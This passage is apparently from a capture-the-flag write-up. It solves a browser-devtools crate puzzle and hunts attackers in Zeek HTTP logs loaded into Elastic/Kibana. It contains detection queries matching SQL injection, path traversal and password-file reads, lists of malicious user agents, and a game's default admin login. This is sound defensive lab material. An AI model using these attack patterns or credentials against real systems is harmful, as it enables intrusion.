nLOGrbFm9BssxC83swYAAA==
EOF

# Bruteforce the key
(.venv) [/tmp/ctf-10.wCu]$ python brute.py
[I] Found the epoch that was used to encrypt the file '1575663650'
[I] Outputted decrypted file
----

image::main/10/00-decrypted.png[First page of decrypted document]

*Answer:* `Machine Learning Sleigh Route Finder`

=== 11 - Open the Sleigh Shop Door

Location: `https://crate.elfu.org/`

Difficulty: `5/5`

image::main/11/00-location.png[]

.Objective
----
Visit Shinny Upatree in the Student Union and help solve their problem. What is written on the paper you retrieve for Shinny?

For hints on achieving this objective, please visit the Student Union and talk with Kent Tinseltooth.
----

==== Solution

WARNING: Start with lock 04! Sometimes the key for this challenge does not work :(.

. Lock 01
+
----
- I locked the crate with the villain's name inside. Can you get it out?
- You don't need a clever riddle to open the console and scroll a little.
----
+
** This one is in the console
+
image::main/11/02-console.png[]
+
. Lock 02
+
----
- Some codes are hard to spy, perhaps they'll show up on pulp with dye?
----
+
** I selected an element near this in the DOM
+
image::main/11/03-dom.png[]
+
. Lock 03
+
----
- This code is still unknown; it was fetched but never shown.
----
+
** This one can be found in the network tools tab
+
image::main/11/04-net.png[]
+
. Lock 04
+
----
- Where might we keep the things we forage? Yes, of course: Local barrels!
----
+
** This key is in the sites local storage
+
image::main/11/01-storage.png[]
+
. Lock 05
+
----
- Did you notice the code in the title? It may very well prove vital.
----
+
** This one was in the title
+
image::main/11/05-title.png[]
+
. Lock 06
+
----
- In order for this hologram to be effective, it may be necessary to increase your perspective.
----
+
** This one requires you to change the `perspective` value for the hologram
+
.Pre change
image::main/11/06-pre.png[]
+
.Adding style
image::main/11/07-style.png[]
+
.Post change
image::main/11/08-post.png[]
+
. Lock 07
+
----
- The font you're seeing is pretty slick, but this lock's code was my first pick.
----
+
** This one is found in the font name for the challenge text
+
image::main/11/09-font.png[]
+
. Lock 08
+
----
- In the event that the .eggs go bad, you must figure out who will be sad.
----
+
** This one can be found in the `Event Listeners` for `.eggs`
+
image::main/11/10-event.png[]
+
. Lock 09
+
----
- This next code will be unredacted, but only when all the chakras are :active.
----
+
** This one requires you to set all of the spans with class `chakra` to `:active`
+
.Force the state
image::main/11/11-active.png[]
+
.Revealed
image::main/11/12-done.png[]
. Lock 10
+
----
- Oh, no! This lock's out of commission! Pop off the cover and locate what's missing.
----
+
** This one requires you to find the missing parts for the lock
** Remove the lid of the lock
+
.Hide the lid element
image::main/11/13-hide.png[]
+
.Inners of the lock
image::main/11/14-uncovered.png[]
+
NOTE: You can see that there are three elements missing from the lock, a cotton swab, gnome, and macaroni; also note the code is at the bottom right of the board.
+
** Copy + paste the missing elements into the lock container
+
.Copy the components
image::main/11/15-find.png[]
+
.Ctrl + v it into the lock container
image::main/11/16-fixed.png[]

image::main/11/17-end.png[]

*Answer:* `The Tooth Fairy`

==== Chat

.Chat log
----
(Shinny Upatree - PRE)
- Hey there.
- Psst - hey!
- I'm Shinny Upatree, and I know what's going on!
- Yeah, that's right - guarding the sleigh shop has made me privvy to some serious, high-level intel.
- In fact, I know WHO is causing all the trouble.
- Cindy? Oh no no, not that who. And stop guessing - you'll never figure it out.
- The only way you could would be if you could break into my crate, here.
- You see, I've written the villain's name down on a piece of paper and hidden it away securely!

(Shinny Upatree - POST)
- Wha - what?? You got into my crate?!
- Well that's embarrassing...
- But you know what? Hmm... If you're good enough to crack MY security...
- Do you think you could bring this all to a grand conclusion?
- Please go into the sleigh shop and see if you can finish this off!
- Stop the Tooth Fairy from ruining Santa's sleigh route!
----

=== 12 - Filter Out Poisoned Sources of Weather Data

Location: `https://srf.elfu.org/`

Difficulty: `4/5`

image::main/12/00-location.png[]

.Objective
----
Use the data supplied in the Zeek JSON logs to identify the IP addresses of attackers poisoning Santa's flight mapping software. Block the 100 offending sources of information to guide Santa's sleigh through the attack. Submit the Route ID ("RID") success value that you're given. For hints on achieving this objective, please visit the Sleigh Shop and talk with Wunorse Openslae.
----

==== Links

* https://srf.elfu.org/[SRF - Sleigh Route Finder API]
** Main website
+
* https://mega.nz/#!JohAyawJ!M-YZoSBVGiyWuj3uAD_MKFf1CxEVQyXs3eT4q2we8Pw[http.log.gz]
** Zeek http logs
+
NOTE: SHA256: `d96b030ad3aba71dc62c2e50524340cda925fe87b462019611a919f8b7c6bca4`

==== Solution

. Create working directory
+
[source, bash, options="nowrap"]
----
# Create a temp directory
[~]$ cd "$(mktemp -d /tmp/ctf-12.XXX)"

# Copy `http.log.gz` into the working directory
[/tmp/ctf-12.Wdg]$ cp /path/to/http.log.gz .

# Uncompress the file
[/tmp/ctf-12.Wdg]$ gunzip http.log.gz
----
+
. Ingest this data into an Elastic stack
+
[source, bash, options="nowrap"]
----
# Convert the given file into a jsonl file
[/tmp/ctf-12.Wdg]$ jq -c '.[]' http.log > http.jsonl

# Extract logstash & docker-compose config
[/tmp/ctf-12.Wdg]$ base64 -d << 'EOF' | tar -xzf -
H4sIAGSlCl4AA+2VTY/TMBCGe86vGPVSkDZuku62EKncOXHgiNDK67hb08SubCdQdvvfmSTu566o
kBYQYp5Icey8no8kMymMWEkbC1OtjZNsU5WDFydBptfX3Yicj2k2mQzSyTTJbrJsMksHSTrJ0nQA
ycuH8pTaeW4BBtYY/zPdpfv/KHEcR420Thmdw2jCZqMoctI2SkiXRwCy5M4r4SS3YtkuAKiK38sc
iu7LYUHAhBmfaE9nsXEun7EblnYmGlPWVe+gJQa8HtfOjt2SW3lmqOCe5/Zrp5W6UdboSmp/2Fwo
JwwmsWF+s5Zzp/R9KWNtChmhZqXuuOYXQu9FYTgLdm2sPwo1zWYswSPNb6ZJfxp7sX4+r+D8KLfg
aZcUKktzj9+gu/R0d7L9xVmYWMIV10UObgmxgJHgHjo346X3a/bFGV3C494bxItwe7eCTvRi9Hwe
7MhIfm41t+ZIeGIuf8ZFK4+OPOAZHraHN9VOGGPR3y6N/4KTN/ObfFzo/8k0mx76f5ph/8+y6xn1
/z+B0uvawwNWn/OF0m3tbaNooUovbbfcVnh3gQpTWyFh/g6GWLoO+9QQ17dtD8Mql0FVcS+WrejT
0LvhFQzff/zwBpvk8PNOXNX+ILeywt59u1CyLPpdO9u4FQ3sd9n6bhP2CGztXRjdbNl2sznIBn8K
zJvbdr6/wSTHaAoDj6ur5jG0KbWABuZzGMWjsAJhex/Nq9XrsC51ER2PfcIYj6n97sGd/K1ChEoX
8lsX4ncpV3HbK0OwxnnX53n6a32bJUlIdkutjyAIgiAIgiAIgiAIgiAIgiAIgiAIgvhFfgCd9VVW
ACgAAA==
EOF

# Look at files extracted
[/tmp/ctf-12.Wdg]$ cat docker-compose.yml
---
version: '3.7'

services:
  elasticsearch:
    image: docker.elastic.co/elasticsearch/elasticsearch-oss:7.5.1
    volumes:
      - es:/usr/share/elasticsearch/data:rw
    environment:
      - discovery.type=single-node

  kibana:
    image: docker.elastic.co/kibana/kibana-oss:7.5.1
    ports:
      - 127.0.0.1:5601:5601/tcp
    volumes:
      - kibana:/usr/share/kibana/data:rw

  logstash:
    image: docker.elastic.co/logstash/logstash-oss:7.5.1
    command: sh -c 'cat /data/http.jsonl | logstash -f /data/logstash.conf'
    volumes:
      - ./http.jsonl:/data/http.jsonl:ro
      - ./logstash.conf:/data/logstash.conf:ro

volumes:
  es: {}
  kibana: {}
...

[/tmp/ctf-12.Wdg]$ cat logstash.conf
input {
  stdin {}
}

filter {
  json {
    source => "message"
  }

  date {
    match => ["ts", "ISO8601"]
  }

  mutate {
    remove_field => ["message", "ts"]
  }

  ruby {
    code => "
    hash = event.to_hash
    hash.each do |k,v|
      if v == '-'
        event.remove(k)
      end
    end
    "
  }
}

output {
  elasticsearch {
    index => "zeek-http"
    hosts => ["elasticsearch:9200"]
  }
}

# Build Elastic environment (Will also ingest data for you)
[/tmp/ctf-12.Wdg]$ docker-compose up -d
----
+
. Add index pattern to Kibana
** Select *Explore on my own*
+
image::main/12/01-start.png[]
+
** Open *Management* tab
+
image::main/12/02-settings.png[]
+
** Select *Index Patterns*
+
image::main/12/03-index-patterns.png[]
+
** Select *Create index pattern*
+
image::main/12/04-create-pattern.png[]
+
** Add pattern for `zeek-http*`
+
image::main/12/05-zeek.png[]
+
*** *Time Filter field name* to `@timestamp`
. Look at the data
+
image::main/12/06-discover.png[]
+
** Where is my data?
+
image::main/12/07-no-results.png[]
+
** Set the time window for Kibana to look at
+
image::main/12/08-better.png[]
+
. We need to find the credentials
** I spent a little looking through the data for keywords like `user` / `pass` / `admin` / `santa` but did not find anything.
** I went back through the decrypted pdf from *challenge 10* and noticed this
+
image::main/12/09-hint.png[]
+
** So I checked if `/.git` was accessible (It was not)
** Then I queried the dataset for `readme`
+
image::main/12/10-search.png[]
+
.Found https://srf.elfu.org/README.md
[source, bash, options="nowrap"]
----
# Sled-O-Matic - Sleigh Route Finder Web API

### Installation

```
sudo apt install python3-pip
sudo python3 -m pip install -r requirements.txt
```

#### Running:

`python3 ./srfweb.py`

#### Logging in:

You can login using the default admin pass:

`admin 924158F9522B3744F5FCD4D10FAC4356`

However, it's recommended to change this in the sqlite db to something custom.
----
+
.Logged in with the creds
image::main/12/11-login.png[]
+
. Start pivoting on the data
** Looking for sketchy stuff in URIs
+
.Quick search for uri tampering
----
uri.keyword:/.*(UNION|\.\.|etc\/|'|\<|\>|passw).*/
----
+
image::main/12/12-uri.png[]
+
** Save JSON data to disk
+
image::main/12/13-inspect.png[]
+
image::main/12/14-data.png[]
+
** Extract IPs from json blob
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ cat bad-uris.json | jq -r '.hits.hits[]._source."id.orig_h"' | tee ips-uris.txt | wc -l
46
----
+
** I then noticed some unique data that did not fit in
+
.Basic auth
----
    _exists_:username
AND NOT username:"(empty)"
----
+
*** The API doesn't support basic auth according to the API
+
image::main/12/15-user.png[]
+
*** Save the response to disk
*** Extract the ips
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ cat bad-users.json | jq -r '.hits.hits[]._source."id.orig_h"' | tee ips-users.txt | wc -l
19
----
+
** I then sorted based on number of times a user agent appeared and noticed some weird user agents
*** Search
+
.Query
----
user_agent.keyword:/.*(\<|&|\$|'|UNION).*/
----
+
image::main/12/16-uas.png[]
+
*** Save the json response to disk
*** Extract the bad ips
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ cat bad-uas.json | jq -r '.hits.hits[]._source."id.orig_h"' | tee ips-uas.txt | wc -l
15
----
+
** Get stuck for a while not finding anything else interesting
** Started looking for weird data in all fields
** Found stuff in the `host` field
*** Search
+
.Query
----
    _exists_:host
AND NOT host:("ssrf.elfu.org" OR "srf.elfu.org" OR "10.20.3.80")
----
+
image::main/12/21-search.png[]
+
*** Save json response to disk
*** Extract ips
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ cat bad-host.json | jq -r '.hits.hits[]._source."id.orig_h"' | tee ips-host.txt | wc -l
7
----
+
** Decided to pivot on the data in the known-bad ips
** Noticed that the user agents might be useful
** Pivot on user agents
*** Create new index for use in an ElasticSearch https://www.elastic.co/guide/en/elasticsearch/reference/current/query-dsl-terms-query.html#query-dsl-terms-lookup-example[terms lookup] query
**** Go to Dev tools
+
image::main/12/17-dev-tools.png[]
+
**** Build json list of ips
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ echo "[$(cat ips-host.txt ips-uris.txt ips-users.txt | sed -re 's|^(.+)$|"\1", |' | tr -d '\n' | sed -re 's|, $||')]"
["200.75.228.240", "168.66.108.62", "80.244.147.207", "95.166.116.45", "123.127.233.97", "65.153.114.120", "61.110.82.125", "132.45.187.177", "28.169.41.122", "169.242.54.5", "193.228.194.36", "25.80.197.172", "79.198.89.109", "9.206.212.33", "116.116.98.205", "180.57.20.247", "187.178.169.123", "250.51.219.47", "211.229.3.254", "223.149.180.133", "75.215.214.65", "23.49.177.78", "229.133.163.235", "1.185.21.112", "253.182.102.55", "131.186.145.73", "230.246.50.221", "102.143.16.184", "45.239.232.245", "2.240.116.254", "135.32.99.116", "34.129.179.28", "190.245.228.38", "129.121.121.48", "106.132.195.153", "121.7.186.163", "238.143.78.114", "27.88.56.114", "249.34.9.16", "75.73.228.192", "225.191.220.138", "10.155.246.29", "2.230.60.70", "106.93.213.219", "44.74.106.131", "84.147.231.129", "49.161.8.58", "48.66.193.176", "42.191.112.181", "69.221.145.150", "19.235.69.221", "56.5.47.137", "42.103.246.250", "188.127.212.14", "135.118.158.216", "241.226.125.123", "150.50.77.238", "84.185.44.166", "254.140.181.172", "33.132.98.193", "98.69.67.75", "104.82.104.120", "208.14.190.102", "248.150.13.189", "168.145.213.152", "75.172.126.182", "18.181.152.167", "88.78.129.76", "40.213.20.94", "9.95.164.154", "142.115.169.193", "191.85.145.190"]
----
+
**** Create new index
+
image::main/12/18-new-index.png[]
+
NOTE: Press the *Play* button.
+
**** Create document with known bad ips
+
NOTE: Excluding the ips from user agents since we don't need them.
+
image::main/12/19-make-doc.png[]
+
*** Build list of bad user agents
**** Add filter to discovery entry
+
image::main/12/20-filter.png[]
+
.Terms lookup filter
----
{
  "query": {
    "terms": {
      "id.orig_h": {
        "index": "bad-ips",
        "path": "ips",
        "id": "known-bad-1"
      }
    }
  }
}
----
+
**** Save the json response to disk
**** Extract the user agents
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ cat bad-user-agents.json | jq '.hits.hits[]._source.user_agent' | tee bad-user-agents.txt
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.68 Safari/534.30"
"Mozilla/5.0 (Windows NT 10.0;Win64;x64)"
"Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1"
"Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)"
"Mozilla/5.0 Slackware/13.37 (X11; U; Linux x86_64; en-US) AppleWebKit/534.16 (KHTML, like Gecko) Chrome/12.0.742.91"
"Mozilla/5.0 (X11; U; Linux i686; de; rv:1.9.0.18) Gecko/2010020400 SUSE/3.0.18-0.1.1 Firefox/3.0.18"
"Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)"
"Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5"
"Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071004 Firefox/2.0.0.8 (Debian-2.0.0.8-1)"
"Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10_4_11; fr) AppleWebKit/525.18 (KHTML, like Gecko) Version/3.1.2 Safari/525.22"
"Mozilla/5.0 (Windows; U; Windows NT 5.2; sk; rv:1.8.1.15) Gecko/20080623 Firefox/2.0.0.15"
"Opera/8.54 (Windows NT 5.1; U; en)"
"Mozilla/5.0 (X11; U; SunOS sun4u; en-US; rv:1.8.1.9) Gecko/20071102 Firefox/2.0.0.9"
"Mozilla/5.0 (Macintosh; U; PPC Mac OS X; fr) AppleWebKit/412.6 (KHTML, like Gecko) Safari/412.2"
"Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)"
"Mozilla/5.0 (Macintosh; U; PPC Mac OS X; en) AppleWebKit/125.5.6 (KHTML, like Gecko) Safari/125.12"
"Mozilla/5.0 (iPad; CPU OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko ) Version/5.1 Mobile/9B176 Safari/7534.48.3"
"Opera/9.12 (Windows NT 5.0; U)"
"Mozilla/4.0 (compatible MSIE 5.0;Windows_98)"
"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.0 (KHTML, like Gecko) Chrome/4.0.207.0 Safari/532.0"
"Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US; rv:1.8.1.14) Gecko/20080404 Firefox/2.0.0.17"
"Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)"
"Mozilla/5.0 (X11; U; FreeBSD i386; en-US; rv:1.9.1) Gecko/20090703 Firefox/3.5"
"Mozilla/5.0 (X11; U; Linux i686; de; rv:1.9.1.6) Gecko/20091215 Ubuntu/9.10 (karmic) Firefox/3.5.6 GTB7.0"
"Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/534.13 (KHTML, like Gecko) Chrome/9.0.597.107 Safari/534.13 v1416664997.4379"
"Opera/9.50 (Windows NT 5.1; U; nl)"
"Opera/8.81 (Windows-NT 6.1; U; en)"
"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731"
"Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6."
"Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)"
"RookIE/1.0"
"Mozilla/5.0 WinInet"
"CholTBAgent"
"Mozilla/5.0 (Windows NT 5.1 ; v.)"
"Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )"
"Wget/1.9+cvs-stable (Red Hat modified)"
"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR  1.1.4322)"
"Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)"
"Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)"
"Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0"
"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)"
"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)"
"Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)"
"Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)"
"Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)"
"Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)"
"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13"
"Mozilla/4.0 (compatible; Metasploit RSPEC)"
"Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N"
"Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)"
"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)"
"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)"
"Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)"
"HttpBrowser/1.0"
"Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)"
----
+
**** Build Query
+
[options="nowrap"]
----
user_agent.keyword:("Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.4.15451" OR "Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36" OR "Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36" OR "Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30" OR "Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19" OR "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12" OR "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.68 Safari/534.30" OR "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1" OR "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1" OR "Mozilla/5.0 (Windows NT 10.0;Win64;x64)" OR "Mozilla/5.0 (X11; U; Linux x86_64; de; rv:1.9.0.18) Gecko/2010021501 Ubuntu/9.04 (jaunty) Firefox/3.0.18" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9b3) Gecko/2008020514 Opera 9.5" OR "Mozilla/5.0 (X11; Linux i686) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.100 Safari/534.30" OR "Mozilla/4.0 (compatible; MSIE 5.13; Mac_PowerPC)" OR "Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1" OR "Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)" OR "Mozilla/5.0 (Windows; U; Windows NT 6.1; fr; rv:1.9.2.10) Gecko/20100914 Firefox/3.6.10 (.NET CLR 3.5.30729)" OR "Mozilla/5.0 Slackware/13.37 (X11; U; Linux x86_64; en-US) AppleWebKit/534.16 (KHTML, like Gecko) Chrome/12.0.742.91" OR "Mozilla/5.0 (X11; U; Linux i686; de; rv:1.9.0.18) Gecko/2010020400 SUSE/3.0.18-0.1.1 Firefox/3.0.18" OR "Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)" OR "Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5" OR "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071004 Firefox/2.0.0.8 (Debian-2.0.0.8-1)" OR "Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10_4_11; fr) AppleWebKit/525.18 (KHTML, like Gecko) Version/3.1.2 Safari/525.22" OR "Mozilla/5.0 (Windows; U; Windows NT 5.2; sk; rv:1.8.1.15) Gecko/20080623 Firefox/2.0.0.15" OR "Opera/8.54 (Windows NT 5.1; U; en)" OR "Mozilla/5.0 (X11; U; SunOS sun4u; en-US; rv:1.8.1.9) Gecko/20071102 Firefox/2.0.0.9" OR "Mozilla/5.0 (Macintosh; U; PPC Mac OS X; fr) AppleWebKit/412.6 (KHTML, like Gecko) Safari/412.2" OR "Opera/6.05 (Windows 2000; U)  [oc]" OR "Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5" OR "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)" OR "Mozilla/5.0 (Macintosh; U; PPC Mac OS X; en) AppleWebKit/125.5.6 (KHTML, like Gecko) Safari/125.12" OR "Mozilla/5.0 (iPad; CPU OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko ) Version/5.1 Mobile/9B176 Safari/7534.48.3" OR "Opera/9.12 (Windows NT 5.0; U)" OR "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.14) Gecko/20080419 Ubuntu/8.04 (hardy) Firefox/2.0.0.12 MEGAUPLOAD 1.0" OR "Mozilla/4.0 (compatible MSIE 5.0;Windows_98)" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.0 (KHTML, like Gecko) Chrome/4.0.207.0 Safari/532.0" OR "Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US; rv:1.8.1.14) Gecko/20080404 Firefox/2.0.0.17" OR "Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)" OR "Mozilla/5.0 (X11; U; FreeBSD i386; en-US; rv:1.9.1) Gecko/20090703 Firefox/3.5" OR "Mozilla/5.0 (X11; U; Linux i686; de; rv:1.9.1.6) Gecko/20091215 Ubuntu/9.10 (karmic) Firefox/3.5.6 GTB7.0" OR "Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/534.13 (KHTML, like Gecko) Chrome/9.0.597.107 Safari/534.13 v1416664997.4379" OR "Opera/9.50 (Windows NT 5.1; U; nl)" OR "Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25" OR "Opera/8.81 (Windows-NT 6.1; U; en)" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731" OR "Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6." OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)" OR "RookIE/1.0" OR "Mozilla/5.0 WinInet" OR "CholTBAgent" OR "Mozilla/5.0 (Windows NT 5.1 ; v.)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )" OR "Wget/1.9+cvs-stable (Red Hat modified)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR  1.1.4322)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)" OR "Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)" OR "Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)" OR "Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)" OR "Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13" OR "Mozilla/4.0 (compatible; Metasploit RSPEC)" OR "Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)" OR "Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)" OR "Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)" OR "HttpBrowser/1.0" OR "Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)")
----
+
**** Create table showing number of times a UA shows up in the dataset
+
image::main/12/22-ua-table.png[]
+
**** Remove the normal looking ones form your search terms; we want the unique looking ones
***** Export to csv
***** Filter out ones with count `>8`
+
[options="nowrap"]
----
"Mozilla/5.0 (Macintosh; U; PPC Mac OS X; fr) AppleWebKit/412.6 (KHTML, like Gecko) Safari/412.2"
"Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)"
"CholTBAgent"
"HttpBrowser/1.0"
"Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N"
"Mozilla/4.0 (compatible MSIE 5.0;Windows_98)"
"Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)"
"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR  1.1.4322)"
"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)"
"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)"
"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)"
"Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)"
"Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)"
"Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)"
"Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)"
"Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)"
"Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )"
"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)"
"Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)"
"Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)"
"Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)"
"Mozilla/4.0 (compatible; Metasploit RSPEC)"
"Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6."
"Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1"
"Mozilla/5.0 (Windows NT 10.0;Win64;x64)"
